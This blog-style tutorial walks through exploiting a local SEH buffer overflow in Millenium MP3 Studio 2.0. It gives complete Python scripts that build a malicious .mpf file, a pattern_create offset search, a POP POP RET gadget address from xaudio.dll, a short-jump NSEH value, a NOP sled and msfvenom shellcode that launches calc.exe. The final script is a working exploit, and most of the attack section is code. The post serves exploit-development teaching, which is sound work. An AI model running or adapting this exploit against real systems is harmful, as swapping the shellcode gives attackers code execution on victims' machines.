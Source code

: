 ```yaml
---
layout: single
title: Local SEH overflow - exploitation of Millenium MP3 Studio 2.0 with a calc.exe shellcode payload
---
```


The victim program for this walkthrough is `Millenium MP3 Studio 2.0`, it includes a local SEH based buffer overflow when opening certain sized files with specific file extensions.

Start by attaching an immunity debugger to the running MP3 Studio process. This will allow us to set breakpoints, and get a better understanding of how the application runs when we start to exploit it. 

![local seh 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh1.png)

The basic concept for exploiting a local Structured Exception Handler based buffer overflow, is that you will create a malicious text file that includes the payload that you are going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example, this target application includes a buffer overflow when parsing certain types of data files, with a .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file and inputs a large buffer of data into it. 10000 A's  is enough data to overwrite the user input buffer, and two write the excess data onto the applications memory stack, doing so will trigger the buffer overflow vulnerability.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000 # the maliciously large buffer

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```

After running the newly-created script, you can now open this malicious .mpf  File in the MP3 Studio application, while the MP3 Studio application is still attached to immunity immunity. Now you should be able to witness the buffer overflow vulnerability being triggered, and you should experience an exception crash within the application.

![local seh 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh2.png)

If you don't see the SEH chain handlers getting overwritten, try adjusting your payload size, this is the one *advantage* of fuzzing, but due to this exploit being trivial, we don't need to involve any complex fuzzers to find a proper payload size, it can be done manually/

If you look at the stack panel within Immunity, you can see the malicious payload has been written on to the stack.

![local seh 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh3.png)

After adjusting the payload size down to 5000 bytes, now you can see if crashes, and also starts overwriting everything.

A few registers are also showing signs of being hit, but most importantly, the SEH handler tab shows you that both the SEH and NSEH have been both overwritten. This is the most important.

![seh handler hit](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh7.png)

Now that you can trigger the vulnerability with a very large sized buffer, you want to calculate the buffer size to fill before overwriting any SEH handlers. You can use the Metasploit patter_create and pattern_offset tools to do this.

```
./pattern_create.rb -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0....
```
This will create a unique cyclic pattern that will allow you to spot and calculate the buffer size on the basis that if every few bytes of this string is unique, you can calculate where the overwritten data comes from in this unique pattern.

Include this string in your exploit, and run it all through Immunity again, when it crashes this time, use the `!mona findmsp` command to locate any overwritten SEH locations and registers, and see where they have been overwritten.

![local seh 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh6.png)

In order to actually exploit this, you need to obtain a POP POP RET  gadget, this can be done with MONA.py  via the !seh -n  command. The POP POP RET sequence will be overwriting the SEH (structured exception handler in the SEH chain)

Running this command will search through the program for the needed sequence, this POPPOPRET sequence will return execution flow back to the structured exception Handler, the goal is to overwrite both the exception Handler and the next structured exception Handler. 

![local seh 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh4.png)

And the structured exception Handler will be overwritten with this sequence that we discover, returning normal flow back to the user-controlled structured exception Handler.

As for the next structured exception Handler, you want to overwrite it with a short jump sequence, this can be denoted with the assembly opcodes 90 90 32 EB , In a reversed format to compensate for the little endian format that we need the memory addresses to be in.  Overriding the next structure exception Handler with this short jump, will allow for the execution flow to jump over the structured exception Handler. and the short jump will drop us into our NOPSLED.

```python
seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH
```

Run these new addresses through struct.pack in order to arrange them properly with little endian format.

A NOPSELD is a short payload that is comprised of NOP  assembly instructions, these NOP  instructions do absolutely nothing, they can be used as a sort of Landing Zone padding for our jump. Including 10-15 NOPs as padding is usually enough.

Including the NOPSLED  after our short jump, will allow for a clean Shell Code execution, where our short jump will directly hit our shellcode without any errors, sometimes an application may have slight adjustments, so you want to compensate for anything by including a large area for the short jump to land in.

```
+----------------------+
| Filled input buffer  |
| ↓                    |
| Short JMP            |
| ↓                    |
| POP-POP-RET          |
| ↓                    |
| NOPSLED              |
| ↓                    |
| Shellcode payload    |
+----------------------+
```

Our final payload is as seen below.

```python
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

Now you can pop a calculator through this local SEH overflow.

![local seh 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh5.png)

## Conclusion

In this post we covered the exploitation of a local bass structured exception Handler buffer overflow vulnerability,  with the ability to craft malicious payloads in the form of .Mpf files, we had the ability  to obtain code execution through the vulnerable application. This was done by crashing, and calculating the input buffer size, and then we located  a POPPOPRET  sequence, followed by adding a short jumper assembly instruction, and our malicious shellcode payload  generated by msfvenom.
